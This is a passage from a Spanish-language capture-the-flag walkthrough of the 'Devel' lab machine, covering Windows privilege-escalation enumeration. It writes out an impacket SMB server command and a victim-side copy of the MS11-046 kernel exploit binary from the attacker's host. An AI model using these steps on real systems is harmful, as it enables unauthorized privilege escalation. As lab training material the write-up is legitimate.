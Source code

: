 ```java
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Vemos el privilegio `SeImpersonatePrivilege` donde con la herramienta JuicyPotato podríamos escalar privilegios rápidamente. Puedes consultar los writeups de las máquinas **Granny** y **Grandpa** para escalar por esta vía. Esta vez no la haremos con esta técnica por lo que seguimos con la enumeración listando información del sistema

```java
c:\Users>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 
System Boot Time:          3/11/2022, 4:53:58 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
```

Hacemos una búsqueda por la versión del sistema `6.1.7600 N/A Build 7600` y rápidamente encontramos una vía de escalada para la que utilizaremos el repositorio de GitHub de [SecWiki](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046)

Nos descargamos el ejecutable en nuestro directorio de trabajo `exploits` compartimos el recurso a nivel de red con `imapcket-smbserver` y en la máquina víctima nos dirigimos al directorio `tmp`, nos descargamos el exploit y lo ejecutamos

```java
#ATACANTE
❯ impacket-smbserver smb $(pwd) -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.5,49163)
[*] AUTHENTICATE_MESSAGE (\,DEVEL)
[*] User DEVEL\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smb)
```
```java
#VICTIMA
c:\Windows\Temp>copy \\10.10.14.91\smb\ms11-046.exe ms11-046.exe  
copy \\10.10.14.91\smb\ms11-046.exe ms11-046.exe  
        1 file(s) copied.

```
